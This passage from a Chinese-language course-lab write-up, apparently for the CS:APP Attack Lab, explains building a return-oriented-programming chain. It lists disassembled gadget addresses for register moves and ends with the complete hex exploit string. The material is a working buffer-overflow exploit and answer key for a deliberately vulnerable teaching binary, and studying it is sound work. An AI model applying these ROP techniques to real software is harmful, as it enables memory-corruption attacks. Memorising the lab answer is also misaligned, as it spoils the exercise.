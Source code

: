 `movq %rax %rdi`--地址`4019c5`

```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	ret  
```

第三步：用%rsi计算偏移量

首先应该取偏移量popq

找不到直接popq %5e，我们找popq %rax--地址`4019ab`

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret  
```

然后popq后面接偏移量，我们给一个偏移量

第四步：将偏移量从%rax转移到%rsi这里

没有直接movq %rax %rsi的命令，所以我们采用中转

中转采用movq也没有相应的指令，所以我们使用movl，movl也只有一个可用就是

`movl %eax %edx`--地址`4019dd`

```
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	ret 
```

`movl %edx %ecx`--地址`401a70`

```
0000000000401a6e <setval_167>:
  401a6e:	c7 07 89 d1 91 c3    	movl   $0xc391d189,(%rdi)
  401a74:	c3                   	ret    
```

`movl %ecx %esi`--地址`401a13`

```
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	ret  
```

最后做出来就是这样的

![img](https://picx.zhimg.com/v2-e6b363c3011f34a0ca44db987f2c0d13_1440w.jpg)



答案

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
```